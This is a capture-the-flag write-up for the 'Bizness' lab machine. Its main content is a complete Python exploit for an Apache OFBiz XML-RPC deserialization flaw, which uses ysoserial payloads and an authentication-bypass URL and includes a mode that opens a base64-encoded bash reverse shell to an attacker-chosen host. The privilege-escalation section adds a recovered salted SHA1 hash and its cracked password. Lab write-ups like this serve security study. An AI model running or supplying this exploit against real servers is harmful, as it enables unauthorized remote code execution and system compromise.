

# Savage-Labs : Bizness Writeup

Name: Bizness
Date:  
Difficulty:  
Goals:  
Learnt:
Beyond Root:

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.



## Exploit


```bash
sudo apt-get install openjdk-11-jdk
```

Modded by running from the absolute path instead from the alias's path or setting up a another alias
```python
# This exploit has been written by Abdelhameed Ghazy 
# Twitter : https://twitter.com/abd0ghazy
# https://www.linkedin.com/in/abdelhameed-ghazy-1a50b619a/

import requests, sys, subprocess,base64,urllib3,os
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


headers = {
    'Content-Type': 'application/xml'
}


def rce(url,arg):
    try:
        payload=subprocess.check_output(["/usr/lib/jvm/java-11-openjdk-amd64/bin/java","-jar","ysoserial-all.jar","CommonsBeanutils1",arg])
    except:
        sys.exit("""
        Command didn't executed, please make sure you have java binary v11
        this exploit tested on this env
        openjdk version "11.0.17" 2022-10-18
        OpenJDK Runtime Environment (build 11.0.17+8-post-Debian-2)
        OpenJDK 64-Bit Server VM (build 11.0.17+8-post-Debian-2, mixed mode, sharing)
        """)
    

    base64_payload=base64.b64encode(payload).decode()
    xml_data = '''<?xml version="1.0"?>
    <methodCall>
        <methodName>RCE-Test</methodName>
        <params>
            <param>
                <value>
                    <struct>
                        <member>
                            <name>rce</name>
                            <value>
                                <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">
                                %s
                                </serializable>
                            </value>
                        </member>
                    </struct>
                </value>
            </param>
        </params>
    </methodCall>
    '''%base64_payload
    r=requests.post(url+"webtools/control/xmlrpc;/?USERNAME=Y&PASSWORD=Y&requirePasswordChange=Y",data=xml_data,headers=headers,verify=False)
    if "java.lang.reflect.InvocationTargetException" in r.text:
        print("Exploit Completed Successfully !")
    else:
        print("Not Sure Worked or not ")


def dns(url,arg):
    try:
        payload=subprocess.check_output(["/usr/lib/jvm/java-11-openjdk-amd64/bin/java","-jar","ysoserial-all.jar","URLDNS",arg])
    except:
        sys.exit("""
        Command didn't executed, please make sure you have java binary v11
        this exploit tested on this env
        openjdk version "11.0.17" 2022-10-18
        OpenJDK Runtime Environment (build 11.0.17+8-post-Debian-2)
        OpenJDK 64-Bit Server VM (build 11.0.17+8-post-Debian-2, mixed mode, sharing)
        """)
    base64_payload=base64.b64encode(payload).decode()
    xml_data = '''<?xml version="1.0"?>
    <methodCall>
        <methodName>Dns</methodName>
        <params>
            <param>
                <value>
                    <struct>
                        <member>
                            <name>rce</name>
                            <value>
                                <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">
                                %s
                                </serializable>
                            </value>
                        </member>
                    </struct>
                </value>
            </param>
        </params>
    </methodCall>
    '''%base64_payload
    r=requests.post(url+"webtools/control/xmlrpc;/?USERNAME=Y&PASSWORD=Y&requirePasswordChange=Y",data=xml_data,headers=headers,verify=False)
    if "No such service" in r.text:
        print("Exploit Completed Successfully !")
    else:
        print("Not Sure Worked or not ")

def shell(url,arg):
    try:
        ip=arg.split(":")[0]
        port=int(arg.split(":")[1])
        rev_shell_command="bash -i >& /dev/tcp/{ip}/{port} 0>&1".format(ip=ip,port=port)
        encoded_rev_shell_command=base64.b64encode(rev_shell_command.encode()).decode()
        rev_shell1='bash -c echo${IFS}%s|base64${IFS}-d|bash'%encoded_rev_shell_command
        rce(url,rev_shell1)

    except:
        sys.exit("Please make sure from data")


def main():

    if not len(sys.argv) > 3:
        sys.exit("""
                Usage: 
                python3 exploit.py target_url rce command
                python3 exploit.py target_url dns dns_url
                python3 exploit.py target_url shell ip:port
                """)

    if not os.path.exists("ysoserial-all.jar"):
        sys.exit("ysoserial-all.jar file must be in the same directory")

    target_url=str(sys.argv[1])
    action=str(sys.argv[2])
    arg=str(sys.argv[3])
    if not target_url.endswith("/"):
        target_url=target_url+"/"
    if not target_url.startswith("http://") and not target_url.startswith("https://"):
        sys.exit("""
                Please Enter a Valid target_url
                Ex: https://example.com
                """)

    if action == "rce":
        rce(target_url,arg)
    elif action == "dns":
        if not arg.startswith("http://") and not arg.startswith("https://"):
                    sys.exit("""
                Please Enter a Valid dns url
                Ex: https://example.com
                """)
        dns(target_url,arg)

    elif action == "shell":
        shell(target_url,arg)
    else:
        sys.exit("""
        Usage: 
        python3 exploit.py target_url rce command
        python3 exploit.py target_url dns dns_url
        python3 exploit.py target_url shell ip:port
        """)
        

main()

```
## Foothold


## PrivEsc

```
cat tylers-help | uniq | grep -v 'auto-save\|ACCESS\|USER'
cat tylers-help | uniq | grep 'currentPassword'

```

It is a sha1 hash
```
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```


The interesting part being that we have to put the salt in with the command in hashcat


Team mates wave and 0x67673068 *"Stored as a base64 url-safe encoded fashion and needs to be reconverted back to traditional hex"* 


Remember to stub no cry! Lmao


For monkey related password


```
b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness
```

## Post Root Reflection

- Look for PoC exploits
- Sometimes it is a race to sign up to oracle..

## Beyond Root


